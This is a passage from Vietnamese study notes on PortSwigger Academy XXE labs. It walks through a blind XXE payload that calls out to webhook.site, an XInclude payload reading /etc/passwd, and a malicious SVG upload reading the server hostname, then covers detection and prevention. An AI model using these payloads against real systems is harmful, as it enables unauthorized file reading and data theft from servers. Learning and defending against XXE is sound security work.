    `<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ 
      <!ENTITY xxe SYSTEM "https://webhook.site/YOUR-UNIQUE-ID"> 
    ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
    </stockCheck>`
    
    > **Lưu ý:** Nhớ thay `YOUR-UNIQUE-ID` bằng mã riêng của bạn từ Webhook.site nhé.
    > 
    1. Nhấn **Send** trong Burp Suite.
    2. Bạn sẽ thấy Response của Server trả về lỗi hoặc không có gì đặc biệt (vì đây là Blind XXE mà).
    3. **Quan trọng nhất:** Quay lại tab trình duyệt đang mở **Webhook.site**.
    4. Nếu bài Lab thành công, bạn sẽ thấy một **Request mới** hiện lên ở cột bên trái.
        - Phần nội dung (Details) của request đó sẽ cho bạn biết IP của máy chủ Lab, các Header mà nó gửi tới...
        - Việc thấy request này xuất hiện chính là bằng chứng (Proof of Concept) rằng bạn đã điều khiển được Server của họ "gọi điện về nhà" cho bạn.
    
    Nhưng vì bài lab có thông báo to prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems…
    
    nên khi tôi dùng webhook thì đã bị tường lửa block lại , nên sương sương thì cách làm nó sẽ là như vậy
    
- Gây ra lỗi phân tích cú pháp XML theo cách thông báo lỗi  chứa dữ liệu nhạy cảm

1. Tìm các attack surface khác cho phép tiêm mã XXE 

Thông thường các lỗ hổng XXE thường khá rõ ràng trong nhiều trường hợp bởi vì đa số http request của ứng dụng chứa dữ liệu ở định dạng XML , nhưng trong các trường hợp ,bề mặt tấn công sẽ ít rõ ràng hơn và nếu bạn tìm kiếm đúng chỗ ,bạn sẽ thấy XXE trong các yêu cầu ko chứa bất kì XML nào 

1. Xinclude attack

Trước hết t cần phải hiểu rằng giao thức SOAP là gì ?

SOAP (Simple object access protocol) là 1 giao thức nhắn tin dựa trên XML ,cho phép các ứng dụng trên các hệ điều hành khác nhau giao tiếp qua mạng ,thường là HTTP .Nó cung cấp tiêu chuẩn bảo mật cao và chủ yếu dùng trong doanh nghiệp và ngân hàng.bởi vì SOAP tích hợp WS-security  cao hơn so với rest

SOAP vs REST

- SOAP : Chỉ dùng XML , cấu trúc chặt chẽ , bảo mật phù hợp cho các hệ thống enterphise
- REST : Hỗ trợ nhìu định dạng ( JSON , XML) ,linh hoạt, nhanh hơn web api hiện đại.

Một số ứng dụng nhận dữ liệu do máy khách gửi, nhúng dữ liệu đó vào một tài liệu XML ở phía máy chủ, rồi phân tích cú pháp tài liệu đó. Ví dụ, dữ liệu do máy khách gửi được đưa vào yêu cầu SOAP ở phía máy chủ, sau đó được xử lý bởi dịch vụ SOAP ở phía máy chủ.

Trong trường hợp này, bạn không thể thực hiện một cuộc tấn công XXE cổ điển, vì bạn không kiểm soát toàn bộ tài liệu XML và do đó không thể định nghĩa hoặc sửa đổi một `DOCTYPE`phần tử. Tuy nhiên, bạn có thể sử dụng `XInclude`thay thế. `XInclude`là một phần của đặc tả XML cho phép xây dựng tài liệu XML từ các tài liệu con. Bạn có thể đặt một `XInclude` vào bất kỳ giá trị dữ liệu nào trong tài liệu XML, vì vậy cuộc tấn công có thể được thực hiện trong các tình huống mà bạn chỉ kiểm soát một mục dữ liệu duy nhất được đặt trong tài liệu XML phía máy chủ.

Để thực hiện một `XInclude`  attack,bạn cần tham chiếu đến `XInclude`  namespace và cung cấp đường dẫn đến tệp mà bạn muốn đưa vào. Ví dụ:

```jsx
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



Thử lấy ví dụ cho bài thực hành này , bài thực hành yêu cầu chúng t hãy chèn Xinlucde để truy xuất nội dung của etc/passwd

Thì khi t intercept request post checkstock lên burpsuite thì chúng t ko còn thấy XML như các bài lab trước nữa ,nhưng vì chúng t đã biết chúng t có thể xử dụng XInlcude để có thể đọc file như yêu cầu đề bài nên bài nãy chúng t sẽ thay tham số product ID bằng 



```jsx
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Bởi vì t thấy bài chỉ accept content-type là urlendcode nên khi dán vào hãy nhwos mã hóa nớ ra như phía dưới và khi gửi bạn sẽ thấy được kết quả . Giải thích sơ về payload thì nó sẽ như thế này 

Dưới đây là giải thích từng phần của payload:

1. **`<foo ... > ... </foo>`**: Đây là một thẻ XML bao quanh (root element) tự chế. Vì bạn đang chèn nội dung vào một vị trí trung gian trong file XML của server, bạn cần một cặp thẻ để đóng gói payload của mình.
2. **`xmlns:xi="http://www.w3.org/2001/XInclude"`**: Đây là phần quan trọng nhất. Nó định nghĩa **Namespace** (không gian tên). Nó báo cho trình phân tích XML biết rằng tiền tố `xi:` sẽ tuân theo quy tắc của chuẩn **XInclude**. Nếu thiếu dòng này, server sẽ báo lỗi "prefix xi is not bound" (như bạn đã gặp).
3. **`<xi:include ... />`**: Đây là hàm "nhúng". Nó ra lệnh cho trình phân tích XML tìm một nguồn dữ liệu bên ngoài và chèn nội dung đó trực tiếp vào vị trí này.
4. **`parse="text"`**: Thuộc tính này yêu cầu server đọc tệp tin dưới dạng **văn bản thuần túy**. Điều này rất quan trọng vì nếu tệp `/etc/passwd` chứa các ký tự đặc biệt (như `<` hoặc `&`), nó sẽ không làm hỏng cấu trúc XML của server, giúp bạn đọc được nội dung mà không bị lỗi parser.
5. **`href="file:///etc/passwd"`**: Đây là đường dẫn đến tệp tin mục tiêu trên hệ thống Linux. Trình phân tích sẽ cố gắng đọc file này và trả kết quả về trong phản hồi (Response) của HTTP.

**Tóm lại:** Bạn đang lừa server "mượn" thư viện XInclude để đọc trộm file hệ thống và hiển thị nó ra màn hình cho bạn.



b. Tấn công XXE thông qua file upload

Một số ứng dụng cho phép tải lên tập tin và sau đó tập tin được xử lí ở phía máy chủ , một số định dạng tệp tin phổ biến sử dụng XML hoặc chứa các xml subcomponents. Ví dụ về định dạng dựa trên xml là các định dạng như docx hoặc các định dạng hình ảnh như svg

Tiếp theo là 1 bài demo về cách tấn công 

Để tạo một ảnh SVG nhằm khai thác lỗ hổng **XXE (XML External Entity)**, bạn không cần dùng đến các phần mềm đồ họa như Photoshop hay Illustrator. Vì SVG thực chất là một tệp văn bản dựa trên ngôn ngữ **XML**, bạn có thể tạo nó bằng bất kỳ trình soạn thảo văn bản nào (như Notepad, VS Code, Sublime Text, hoặc Nano).

Dưới đây là các bước chi tiết và giải thích cấu trúc mã:



### 1. Cách tạo tệp tin

1. Mở một trình soạn thảo văn bản trên máy tính của bạn.
2. Sao chép và dán đoạn mã dưới đây vào:

```jsx
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

1. Lưu tệp với file mở rộng là svg

- **Tải lên (Upload):** Truy cập vào mục bình luận của blog trong bài Lab. Nhập tên, email và chọn tệp `exploit.svg` để làm ảnh đại diện (Avatar).
- **Kích hoạt (Trigger):** Gửi bình luận. Lúc này, máy chủ sẽ nhận tệp, thư viện Apache Batik sẽ phân tích XML bên trong và vô tình thực hiện lệnh đọc file mà mình đã cài
- **Thu thập kết quả:** Quay lại trang danh sách bình luận. Bạn sẽ thấy ảnh đại diện của mình không phải là một hình vẽ bình thường, mà là một dòng chữ nhỏ. Đó chính là **hostname** của máy chủ mục tiêu.
- 



Mở to hình ảnh trong tab mới để có thể dễ thấy được kết quả , lấy kết quả đó submit thì sẽ được

II. Cách tìm và kiểm tra các lỗ hổng XXE 

Đa số các lỗ hổng XXE có thể được phát triển nhanh chóng và đáng tin cậy bằng cách sử dụng công cụ quét lỗ hổng web bằng BS

- Kiểm tra khả năng truy xuất tập tin là gì bằng cách định nghĩa một thực thể bên ngoài dựa trên một tập tin hệ điều hành quen thuộc và sử dụng thực thể đó trong dữ liệu được trả về trong phản hồi của ứng dụng.
- Kiểm tra blind XXE là gì bằng cách định nghĩa một thực thể bên ngoài dựa trên URL đến một hệ thống mà bạn kiểm soát, và giám sát các tương tác với hệ thống.
- Kiểm tra khả năng chèn dữ liệu không phải XML do người dùng cung cấp vào tài liệu XML phía máy chủ bằng cách sử dụng [tấn công XInclude](https://portswigger.net/web-security/xxe#xinclude-attacks) để cố gắng truy xuất một tệp hệ điều hành quen thuộc

III. Cách phòng ngừa tấn công XXE 

Hầu hết các lỗ hổng XXE đều phát sinh do thư viện phân tích cú pháp XML của ứng dụng hỗ trợ các tính năng XML tiềm ẩn nguy hiểm mà ứng dụng không cần hoặc không có ý định sử dụng. Cách dễ nhất và hiệu quả nhất để ngăn chặn các cuộc tấn công XXE là vô hiệu hóa các tính năng đó. 

1. Có nghĩa là vô hiệu hóa DTD 

**Ví dụ trong Java:** Bạn có thể sử dụng phương thức `setFeature` của `DocumentBuilderFactory` để tắt DTD

```jsx
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

```

1. Tắt thực thể bên ngoài : Nếu tường hợp ứng dụng xử dụng DTD ,hãy cấu hienhf bộ phân tích XML  để không xử lí các thực thể bên ngoài và các thực thể tham số
2. Kiểm tra và làm sạch dữ liệu đầu vào
